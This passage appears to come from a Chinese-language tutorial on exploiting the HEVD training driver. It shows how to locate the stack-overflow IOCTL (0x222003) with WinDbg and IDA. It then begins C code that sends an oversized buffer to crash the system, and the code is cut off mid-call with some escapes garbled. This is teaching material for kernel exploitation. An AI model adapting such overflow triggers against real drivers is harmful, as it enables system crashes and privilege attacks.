 [![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01889758904cec3a2f.png)

您可以在漏洞利用过程中使用上述的宏，或者使用IDA来定位跳转到位于“IrpDeviceIoCtlHandler”例程的栈溢出IOCTL代码

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01e54ea03e710bdacd.png)

在windbg中，您可以查看HEVD的驱动程序信息。在偏移0x38这里，您可以看到'MajorFunction'数组。

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a2988b4069baf549.png)

要找到'IrpDeviceIoCtlHandler'例程，我们可以执行这个指针运算。0xe是IRP_MJ_DEVICE_CONTROL的索引。一旦我们重新组装了指针，我们就可以看到我们找到了正确的例程。

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0161e44fe593938040.png)

可以在windbg中进一步分析这个例程，查看这个0x222003 IOCTL在哪里。

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t011d599265ca42a1ae.png)

如果我们遵循jz指令，则会导致堆栈溢出程序打印调试消息"** HACKSYS_EVD_STACKOVERFLOW **"

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0105200a09eb0209bf.png)

<br>

**触发漏洞**

既然我们已经了解了IOCTL指令，现在让我们来触发这个漏洞。我将向其发送一个巨大的缓存，最终将造成蓝屏



```
// 源码地址：https://github.com/OsandaMalith/Exploits/blob/master/HEVD/StackOverflowBSOD.c
#include "stdafx.h"
#include &lt;Windows.h&gt;
#include &lt;string.h&gt;
/*
 * Title: HEVD x86 Stack Overflow BSOD
 * Platform: Windows 7 x86
 * Author: Osanda Malith Jayathissa (@OsandaMalith)
 * Website: https://osandamalith.com
 */
int _tmain(int argc, _TCHAR* argv[])
{
    HANDLE hDevice;
    LPCWSTR lpDeviceName = L"\\.\HacksysExtremeVulnerableDriver";
    PUCHAR lpInBuffer = NULL;
    DWORD lpBytesReturned = 0;
    hDevice = CreateFile(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);
    wprintf(L"[*] Author: @OsandaMalithn[*] Website: https://osandamalith.comnn");
    wprintf(L"[+] lpDeviceName: %lsn", lpDeviceName);
    if (hDevice == INVALID_HANDLE_VALUE) {
        wprintf(L"[!] Failed to get a handle to the driver. 0x%xn", GetLastError());
        return -1;
    }
    wprintf(L"[+] Device Handle: 0x%xn", hDevice);
    lpInBuffer = (PUCHAR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x900);
    if (!lpInBuffer) {
        wprintf(L"[!] Failed to allocated memory. %x", GetLastError());
        return -1;
    }
    RtlFillMemory(lpInBuffer, (SIZE_T)1024*sizeof DWORD, 0x41);
    wprintf(L"[+] Sending IOCTL request with buffer: 0x222003n");
    DeviceIoControl(
```